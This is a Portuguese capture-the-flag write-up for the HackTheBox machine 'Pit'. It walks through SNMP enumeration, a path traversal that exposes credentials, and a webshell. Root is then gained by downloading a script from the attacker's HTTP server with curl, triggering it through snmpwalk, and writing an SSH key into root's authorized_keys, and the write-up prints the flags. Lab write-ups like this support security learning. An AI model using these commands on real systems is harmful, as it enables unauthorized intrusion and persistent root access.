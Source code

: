 # Pit

---

## Enum

---

```python
nmap -T4 -p- -A 10.10.10.241
```

![mclovin](https://user-images.githubusercontent.com/69881757/126364288-bdea78e8-cd22-49f1-b365-7447f877fb6b.png)


- Fazendo a resolução de DNS:

```python
echo "10.10.10.241 pit.htb dms-pit.htb" > /etc/hosts
```

- Agora já sabemos que existem 2 portas udp rodando SNMP:

    ![Untitled](https://user-images.githubusercontent.com/69881757/126364336-59a0f389-2513-4d88-b07f-31c109edf649.png)


    - Procuramos na internet scripts no github que exploram os datas do SNMP:

    [https://github.com/dheiland-r7/snmp](https://github.com/dheiland-r7/snmp)

    ```python
    perl snmpbw.pl pit.htb public 2 1
    ```

---

### Exploration

---

- Entrando podemos enviar um arquivo pra dentro da máquina:
    - Dentro do sistema vai estar exposto a versão do software: 5.1.10, que tem uma webshell pra exploração da falha!
- Procurando pela webshell no `searchsploit`

![backdoor](https://user-images.githubusercontent.com/69881757/126364370-1825b731-22c2-4c88-8630-9352b38bbed0.png)


Rodando esses passos e explorando os diretórios descobrimos que existe um arquivo chamado:

../../../conf/settings.xml

- Dentro deste arquivo podemos encontrar uma página em branco porém com informações na sua source page:

    ![burp](https://user-images.githubusercontent.com/69881757/126364416-7a68725b-c0c2-4af6-a940-2fac3f845c63.png)


    - Senha login → michelle: ied^ieY6xoquu

Agora voltando para `http://pit.htb:9090`

Colocando essas credenciais conseguimos encontrar um painel de login:

![login-sistema](https://user-images.githubusercontent.com/69881757/126364435-8b5a644f-bd34-4acf-bd95-5537e57f4b4c.png)


![reverse](https://user-images.githubusercontent.com/69881757/126364464-5e607eb0-ee14-4e57-aad6-c36d9e90381c.png)


User Flag: be77b070e8e1ac7ac499d1412670d215

---

cd /usr/local/monitoring

- Precisamos agora criar uma RSA_Id

```python
ssh-keygen
// colocamos um nome
```

- Criamos um arquivo `[keytosend.sh](http://keytosend.sh)` que terá dentro :

```python
echo "RSA_ID_PUB" > /root/.ssh/authorized_keys
```

- Agora abrimos um servidor em python dentro da pasta na nossa máquina:

```python
python -m SimpleHTTPServer PORT
```

- E rodamos um curl dentro da máquina da vitima:

```python
curl [http://10.10.14.33](http://10.10.14.33):PORT/[keytosend.sh](http://keytosend.sh) -o check.sh 
```

- Precisamos garantir que está no /usr/local/monitoring
    - Ou então dar um :

    ```python
    cp check.sh /usr/local/monitoring 
    ```

![curl](https://user-images.githubusercontent.com/69881757/126364509-533bae40-e5d0-4340-a909-849ed8cb17f0.png)


- Para que esse arquivo seja rodado na máquina precisamos rodar :

```python
snmpwalk -v 1 -c public pit.htb 1.3.6.1.4.1.8072.1.3.2.2.1.2 
```

![snmpwalk](https://user-images.githubusercontent.com/69881757/126364527-f31e07aa-738a-45f9-8c26-76f6e1e79c9e.png)


- ou então :

```python
snmpwalk -m +MY-MIB -v2c -c public 10.10.10.241 nsExtendObjects 
```

![snmpwalk2](https://user-images.githubusercontent.com/69881757/126364579-1a6df957-5e9b-4f17-bd97-83fe6526e759.png)


- Por fim

```python
ssh -i id_rsa root@pit.htb
```

Root Flag: f35dad39922ce883a572c057f672bbd8

---
